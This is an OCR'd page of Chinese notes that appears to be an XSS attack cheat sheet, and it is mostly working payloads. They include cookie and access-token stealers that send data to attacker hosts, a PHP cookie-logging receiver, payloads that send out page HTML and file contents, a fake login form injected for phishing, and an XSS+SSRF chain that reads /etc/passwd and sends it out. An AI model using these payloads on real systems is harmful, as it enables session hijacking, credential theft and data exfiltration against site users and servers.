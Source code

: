  #### 确定XSS
  	反射型XSS可使用payload:<script>alert(1)</script>
	存储型不适宜alert(1)
	更好的替代品
	<script>alert(document.domain.concat("\n").concat(window.origin))</script>
	<script>console.log("Test XSS from the search bar of page XYZ\n".concat(document.domain).concat("\n").concat(window.origin))</script>
 #### 打COOKIE
	<svg/onload="javascript:document.location.href=('http://xx.xx.xx.xx:7777?cookie='+document.cookie)">
	<script>document.location='http://localhost/XSS/grabber.php?c='+document.cookie</script>
	<script>document.location='http://localhost/XSS/grabber.php?c='+localStorage.getItem('access_token')</script>
	<script>new Image().src="http://localhost/cookie.php?c="+document.cookie;</script>
	<script>new Image().src="http://localhost/cookie.php?c="+localStorage.getItem('access_token');</script>
	获取的cookie写入文件
```php
<?php
$cookie = $_GET['c'];
$fp = fopen('cookies.txt', 'a+');
fwrite($fp, 'Cookie:' .$cookie."\r\n");
fclose($fp);
?>
```
 #### 读取HTML
	<svg/onload="document.location='http://xx.xx.xx.xx:7777/?'+btoa(document.body.innerHTML)">
 #### 读文件
	<svg/onload="
	xmlhttp=new XMLHttpRequest();
	xmlhttp.onreadystatechange=function()
	{
		if (xmlhttp.readyState==4 && xmlhttp.status==200)
		{
			document.location='http://xx.xx.xx.xx:7777/?'+btoa(xmlhttp.responseText);
		}
	}
	xmlhttp.open("GET","file.php",true);
	xmlhttp.send();
	">
 #### 修改HTML
  	<script>
	history.replaceState(null, null, '../../../login');
	document.body.innerHTML = "</br></br></br></br></br><h1>Please login to continue</h1><form>Username: <input type='text'>Password: <input type='password'></form><input value='submit' type='submit'>"
	</script>
 #### XSS+SSRF读取服务器文件
	<svg/onload="
	xmlhttp=new XMLHttpRequest();
	xmlhttp.onreadystatechange=function()
	{
	if (xmlhttp.readyState==4 && xmlhttp.status==200)
	{
	    document.location='http://vps_ip:23333/?'+btoa(xmlhttp.responseText);
	}
		}
	xmlhttp.open("POST","request.php",true);
	xmlhttp.setRequestHeader("Content-type","application/x-www-form-urlencoded");
	xmlhttp.send("url=file:///etc/passwd");
	">
 #### XSS克隆钓鱼